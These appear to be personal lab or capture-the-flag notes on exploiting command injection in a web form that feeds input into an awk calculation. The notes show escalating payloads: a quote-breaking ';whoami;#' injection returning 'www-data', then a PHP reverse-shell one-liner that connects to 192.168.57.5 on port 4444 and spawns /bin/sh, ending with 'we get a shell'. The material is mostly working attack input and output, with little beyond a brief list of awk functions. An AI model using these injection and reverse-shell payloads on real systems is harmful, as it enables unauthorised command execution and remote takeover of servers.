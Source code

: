 
i/p:
100
200

Executed: awk 'BEGIN {print sqrt(((100-50)^2) + ((200-50)^2))}'  
Result: 158.114

**1. AWK Operations:**   
(a) Scans a file line by line   
(b) Splits each input line into fields   
(c) Compares input line/fields to pattern   
(d) Performs action(s) on matched lines

try command injection on 2nd payload

i/p
100
50)^2))}';whoami;

o/p:
Executed: awk 'BEGIN {print sqrt(((100-100)^2) + ((200-50)^2))}';whoami;)^2))}'  
Result:

we get no result


i/p:

100
50)^2))}';whoami;#

add hash to comment out rest of command

o/p:
Executed: awk 'BEGIN {print sqrt(((100-100)^2) + ((200-50)^2))}';whoami;#)^2))}'  
Result: 150 www-data

i/p:
100
50)^2))}';php -r '$sock=fsockopen("192.168.57.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");';#

 dont forget the hash to ccomment out rest of command
![[Pasted image 20230715180821.png]]

and we get a shell

